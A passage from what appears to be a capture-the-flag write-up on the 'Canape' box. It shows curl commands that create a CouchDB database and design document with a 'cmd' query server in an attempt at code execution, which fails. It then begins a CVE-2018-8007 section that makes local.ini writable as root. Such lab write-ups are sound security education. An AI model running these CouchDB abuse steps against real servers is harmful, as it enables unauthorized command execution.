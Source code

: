 
Now, we should be able to create a db, and then a document in that db, and the
request it with a view that maps our query_server to get execution.

Create db and document:

    
    
    www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
    ["_global_changes","_metadata","_replicator","_users","god","passwords","simpsons","vultest"]
    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df'
    {"ok":true}
    www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
    ["_global_changes","_metadata","_replicator","_users","df","passwords","simpsons"]
    
    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
    {"ok":true,"id":"zero","rev":"1-967a00dff5e02add41819138abb3284d"}
    

Request it in a view. The db will complain about headers, but if we work with
it, we can get a bit further:

    
    
    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}'
    {"error":"bad_request","reason":"Referer header required."}
    
    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://127.0.0.1:5984
    {"error":"bad_request","reason":"Referer header must match host."}
    
    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984"
    {"error":"bad_content_type","reason":"Content-Type must be multipart/form-data"}
    
    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984" -H "Content-Type: multipart/form-data"
    {"error":"case_clause","reason":"undefined","ref":627893255}
    

At this point, I am stuck. An undefined “case_clause” error wasn’t too
Googleable. And this isn’t really a path for this box anyway. If you know why
it’s breaking here, please leave a comment!

#### Successful CVE-2018-8007 With root Help

In writing this post, I found a new CVE had been released for CouchDB from
mdsec, [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-
cve-2018-8007-apache-couchdb-remote-code-execution/). It also requires writes
to the `local.ini` file, so it isn’t a useful option for Canape. But since
I’ve already made it writable as root, let’s see if we can get it to work.

Start with a clean and now writable `local.ini` (and a backup):

    
    
    root@canape:/home/homer/etc# ls -l
    total 40
    -r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
    -rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
    -r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
    -r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
    